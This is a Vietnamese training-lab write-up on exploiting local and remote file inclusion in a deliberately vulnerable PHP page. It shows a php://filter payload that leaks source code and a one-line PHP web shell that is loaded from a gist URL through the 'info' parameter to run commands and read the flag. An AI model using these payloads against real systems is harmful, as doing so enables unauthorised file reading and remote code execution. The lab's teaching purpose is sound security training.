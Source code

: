 # Lab File Inclusion

## Local File Inclusion (LFI):

![](https://i.imgur.com/0Rva92V.png)

Source code: https://github.com/tu3n4nh/trainingKCSC/blob/main/task_7_file_inclusion/lab_file_inclusion/index.php

### Phân tích

Trang web trên sẽ hiển thị thêm thông tin vào file `index` dựa theo params `info` bằng phương thức GET sau khi ta bấm vào button `More info`.

![](https://i.imgur.com/0RvV0Mj.png)

Thử nhập vào params `info` ký tự bất kỳ:

![](https://i.imgur.com/09D37QM.png)

Ta thấy có lỗi `Warning: include(aaa.php): Failed... No such file or directory in`

Vậy là ta có thể xác định được khi click vào button `More info` thì file chứ thông tin về con vật trong params `info` sẽ được include vào trang `index` và hiện ra màn hình.

Dựa vào việc `include(aaa.php)` từ ngay trang `index.php` ta có thể tạm xác định folder hiện tại đang chứa những file như sau:

```
┐
├─index.php    // Chứa chứa hàm include()
├─cat.php      // File chứa thông tin về cat
├─cheems.php   // File chứa thông tin về cheems
└─pepe.php     // File chứa thông tin về pepe
```

### Khai thác

1. Ta sẽ sử dụng payload: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter
    Để đọc source code của từng file `index.php?info=php://filter/convert.base64-encode/resource=index`
    
    ![](https://i.imgur.com/GNWnU6M.png)
    
2. Decode đoạn base64 nhận được để nhận được source code:
    
    ![](https://i.imgur.com/fU2sZ2w.png)



## Remote File Inclusion (RFI):

![](https://i.imgur.com/0Rva92V.png

Source code: https://github.com/tu3n4nh/trainingKCSC/blob/main/task_7_file_inclusion/lab_file_inclusion/index.php

Chỉ file php.ini để cho phép include từ url.

![](https://i.imgur.com/3IDiLLQ.png)


### Phân tích

Trang web trên sẽ hiển thị thêm thông tin vào file `index` dựa theo params `info` bằng phương thức GET sau khi ta bấm vào button `More info`.

![](https://i.imgur.com/0RvV0Mj.png)

Thử nhập vào params `info` ký tự bất kỳ:

![](https://i.imgur.com/09D37QM.png)

Ta thấy có lỗi `Warning: include(aaa.php): Failed... No such file or directory in`

Vậy là ta có thể xác định được khi click vào button `More info` thì file chứ thông tin về con vật trong params `info` sẽ được include vào trang `index` và hiện ra màn hình.

Vì lab này cho phép include file từ url nên ta đã đủ thông tin để bắt đầu khai thác

### Khai thác

1. Tạo một file shell.php chưa payload RCE: `<?php echo system($_GET['cmd']); ?>` có thể trên `gist.github.com` sau đó lấy link vào truyền vào params `info`:
    Payload: `?info=https://gist.githubusercontent.com/tu3n4nh/a8078a98897200725ef254544e7a93b6/raw/23775cac4cf1b2c308a22e8647485f77cae248e0/shell`

    ![](https://i.imgur.com/znaYa8p.png)

    Thông báo lỗi như vậy chứng tỏ file shell của chúng ta đã thành công chạy trên website
    
2. RCE và ... làm những gì chúng ta muốn thôi:
    
    `&cmd=dir` để list ra các files có trong folder hiện tại
    
    ![](https://i.imgur.com/eKC09ax.png)

    Ctrl + U để cho dễ nhìn:
    
    ![](https://i.imgur.com/6UYSil4.png)

    `&cmd=type flag` để đọc file flag
    
    ![](https://i.imgur.com/a4rFvQ7.png)


=> **Flag: KCSC{F1l3 1nclu51on 15 v3ry d4ng3rou5!}**
